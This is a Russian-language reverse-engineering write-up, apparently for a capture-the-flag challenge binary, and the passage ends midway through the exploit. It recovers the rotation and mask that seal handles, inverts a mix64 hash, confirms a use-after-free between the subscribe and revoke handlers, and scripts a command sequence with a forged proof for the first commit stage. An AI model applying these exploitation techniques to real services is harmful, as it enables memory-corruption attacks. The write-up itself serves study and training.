

В assembly видно те же сдвиги и маску:



```python
raw_handle = (
    generation << 48
    | bucket << 40
    | slot
)

handle = rol64(raw_handle ^ mask, rotation)
```

После этого становится понятно, что `plan` и `handle` закрываются одной схемой:

```text
sealed = rol64(raw ^ mask, rotation)
```

## 6. Как я восстановил rotation, mask и raw plan

### 6.1. Создаю два соседних профиля

В свежей транзакции дважды вызываю `P` с одинаковыми label и template:

```text
B
P face0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
P face0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```



Одинаковый label дает один bucket. Одинаковый размер дает один class. Поэтому allocator выдает соседние slot.

Пусть:

```python
h0 = rol64(raw0 ^ mask, rotation)
h1 = rol64(raw1 ^ mask, rotation)
```

xor убирает одинаковый mask:

```text
h0 ^ h1 = rol64(raw0 ^ raw1, rotation)
```

В `raw0` и `raw1` совпадают generation и bucket, различаются только slot.

На свежем соединении первый slot равен 0, второй равен 1. Тогда:

```text
raw0 ^ raw1 = 1
h0 ^ h1 = rol64(1, rotation)
```

`rol64(1, rotation)` имеет ровно один установленный бит. Позиция этого бита и есть rotation.

```python
delta = h0 ^ h1

if delta == 0 or delta & (delta - 1):
    raise ValueError("нужна пара, у которой xor содержит один бит")

rotation = delta.bit_length() - 1
```

Если соединение уже использовало slot и xor не однобитный, проще открыть новое соединение и повторить эксперимент.

### 6.2. Перебираю только 256 bucket

Для первого профиля известны:

```text
generation = 1
slot = 0
bucket = пока неизвестен, но он занимает один байт
```

Поэтому перебираю всего 256 кандидатов:

```python
for bucket in range(256):
    candidate_raw = (1 << 48) | (bucket << 40)
    mask = ror64(h0, rotation) ^ candidate_raw
    raw_plan = ror64(plan, rotation) ^ mask
```

### 6.3. Как проверить кандидата plan

Сырой plan имеет layout:

```text
epoch:16 | route:8 | route_id:32 | check:8
```

Поля извлекаются так:

```python
epoch = raw_plan >> 48
route = raw_plan >> 40 & 0xFF
route_id = raw_plan >> 8 & 0xFFFFFFFF
check = raw_plan & 0xFF
```

Проверочный байт виден в `sub_2BDEC0`:

```python
expected_check = mix64(
    transaction
    ^ (route << 40)
    ^ (route_id << 8)
    ^ 0xBB67AE8584CAA73B
) >> 56
```

Кандидат оставляю, если:

```text
epoch == 1
check == expected_check
bucket(label) == candidate bucket
```

Последняя проверка требует `seed0`. Mask тоже создается через `mix64`, поэтому его можно обратить:

```python
seed0 = unmix64(mask) ^ 0x7469636B65742D67
```

Константы и все три стадии `mix64` видны в ida. `mix64` обратима, потому что xor со сдвигом обратим, а оба множителя нечетные и имеют обратные элементы по модулю `2**64`.

```python
def mix64(value):
    value &= MASK64
    value ^= value >> 30
    value = value * 0xBF58476D1CE4E5B9 & MASK64
    value ^= value >> 27
    value = value * 0x94D049BB133111EB & MASK64
    value ^= value >> 31
    return value

def undo_xor_right(value, shift):
    result = value
    for _ in range(6):
        result = value ^ (result >> shift)
    return result & MASK64

def unmix64(value):
    value = undo_xor_right(value, 31)
    value = value * pow(0x94D049BB133111EB, -1, 1 << 64) & MASK64
    value = undo_xor_right(value, 27)
    value = value * pow(0xBF58476D1CE4E5B9, -1, 1 << 64) & MASK64
    return undo_xor_right(value, 30)
```

После этих проверок у меня есть `rotation`, `mask`, `seed0` и `raw_plan`.

## 7. Как я подтвердил use-after-free

Для проверки первоначальной гипотезы сравниваю обработчики `W` и `D`.

### 7.1. Что сохраняет W

В `sub_2BBF60` сначала нахожу раскрытие handle:

```text
raw = mask ^ ror(handle, rotation)
```



После проверки generation и owner обработчик создает job подписки. В job копируются физические координаты entry:

```text
entry+2 -> bucket
entry+8 -> slot
entry   -> raw pointer
```





Это первая опасная деталь: подписка хранит не только защищенный handle, а прямую ссылку на entry.

### 7.2. Что делает D

`sub_2BC580` раскрывает handle тем же `ror` и `xor`:



Затем выполняется:

```text
++entry->generation
entry->state = 2
entry->owner = 0
entry->data = 0
```





Generation защищает старый handle: после `D` его старое значение больше не совпадает с entry. Но список подписок здесь не очищается. Job из `W` продолжает хранить bucket, slot и pointer.

Так я подтверждаю use-after-free:

```text
W сохраняет ссылку на entry
        |
        v
D отзывает entry, но не удаляет job
        |
        v
commit возвращает entry в allocator
        |
        v
новый объект занимает тот же slot
        |
        v
старая job читает новый объект
```

## 8. Провожу первый commit

### 8.1. Почему у C две стадии

Перехожу в `sub_2BC7E0` и нажимаю `F5`.





В transaction есть байт phase по смещению `+16`:

```text
phase == 1 -> sub_2BC920
phase == 2 -> sub_2BD000
```

Так я логически прихожу к двум большим функциям commit. Ставлю курсор на каждый вызов и перехожу внутрь через `Enter`.

### 8.2. Proof первого этапа

Перед выбором стадии `C` вызывает `sub_2BDF60`. Для phase 1 функция использует domain `0x726f7574652d6768`:



```python
proof1 = mix64(
    transaction1
    ^ raw_plan1
    ^ 0x726F7574652D6768
)
```

### 8.3. Точная раскладка первой стадии

В начале `sub_2BC920` видны все условия:





Условия читаю по порядку:

1. должна существовать ровно одна подписка;
2. число отозванных профилей равно `route_id % 3 + 2`;
3. bucket каждого профиля равен `route` из plan;
4. class каждого профиля равен 1;
5. профили должны быть отозваны в порядке создания;
6. подписка должна указывать на первый отозванный профиль.

Здесь важно не перепутать два соседних поля: глубина берется из 32-битного `route_id`, а не из однобайтного `route`:

```python
depth1 = route_id1 % 3 + 2
```

### 8.4. Подбираю label нужного bucket

После восстановления `seed0` bucket для любого label считается офлайн. Вероятность попадания равна `1/256`.

```python
def label_for_bucket(seed0, target):
    for index in range(200000):
        label = f"target{index}".encode()
        bucket = mix64(
            fnv1a(label) ^ seed0 ^ 0x6C6162656C2D6768
        ) >> 56
        if bucket == target:
            return label
    raise RuntimeError("label not found")
```

### 8.5. Команды первой стадии

Для class 1 беру 32 байта, потому что 32 входит в диапазон 17..48:

```text
B
P <label1> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA -> h[0]
P <label1> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA -> h[1]
...                                         всего depth1 профилей
W 0x<h[0]>
D 0x<h[0]>
D 0x<h[1]>
...
C 0x<proof1>
```

В interactive режиме transaction отдельно не передаю: команда `B` уже сохранила его внутри соединения.

### 8.6. Что allocator делает после проверки

После проверок retired entries возвращаются в arena. Затем выделяются padding objects и 32-байтный receipt.

